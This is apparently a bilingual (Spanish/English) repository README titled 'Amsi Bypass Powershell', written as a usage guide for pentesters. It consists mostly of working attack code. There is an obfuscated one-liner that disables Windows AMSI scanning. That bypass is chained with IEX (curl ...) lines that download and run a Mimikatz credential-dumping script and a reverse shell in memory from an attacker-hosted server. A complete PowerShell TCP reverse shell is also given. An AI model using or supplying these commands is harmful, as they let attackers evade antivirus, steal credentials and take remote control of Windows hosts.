 # Amsi Bypass Powershell #

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true)
```

## Spanish:
# Ejemplo de uso:

Guardar en un archivo, este script de Mimikatz de este repo:
https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1

Abres un servidor con Python o Apache y guardas el archivo con cualquier formato puedes guardar el archivo hasta en Webhost/Pastebin/Github etc, cualquier servidor con formato Raw y en la Powershell escribes el Bypass de AMSI + IEX (curl link)

# Ejemplo:

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/mimiktz)
```

Con lo anterior Bypasseas amsi y haces una descarga del codigo del servidor y lo ejecutas en memoria

Tambien puedes guardar una reverse shell en el servidor

# Ejemplo de Reverse Shell en Powershell:

```
$client = New-Object System.Net.Sockets.TCPClient("ip",puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```
Lo guardas en un archivo, abres el servidor y ejeutas lo siguiente cambiando el servidor y nombre de archivo

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/reverse)
```

## English:

# Example of use:

Save to a file, this Mimikatz script from this repo:
https://raw.githubusercontent.com/dievus/PowerShellForPentesters/main/Tools/Invoke-Mimikatz.ps1

You open a server with Python or Apache and save the file with any format you can save the file even in Webhost/Pastebin/Github etc, any server with Raw format and in the Powershell you write the AMSI + IEX Bypass (curl link)

# Example:

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/mimiktz)
```

With the above Bypasseas amsi and download the code from the server and run it in memory.

You can also save a reverse shell on the server

# Example of Reverse Shell in Powershell:

```
$client = New-Object System.Net.Sockets.TCPClient("ip",puerto);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Save it to a file, open the server and execute the following by changing the server and file name

```
$a = 'si'; $b = 'Am'; $Ref = [Ref].Assembly.GetType(('System.Management.Automation.{0}{1}Utils' -f $b, $a)); $z = $Ref.GetField(('am{0}InitFailed' -f $a),'NonPublic,Static'); $z.SetValue($null,$true); IEX (curl http://192.168.0.7/reverse)
```
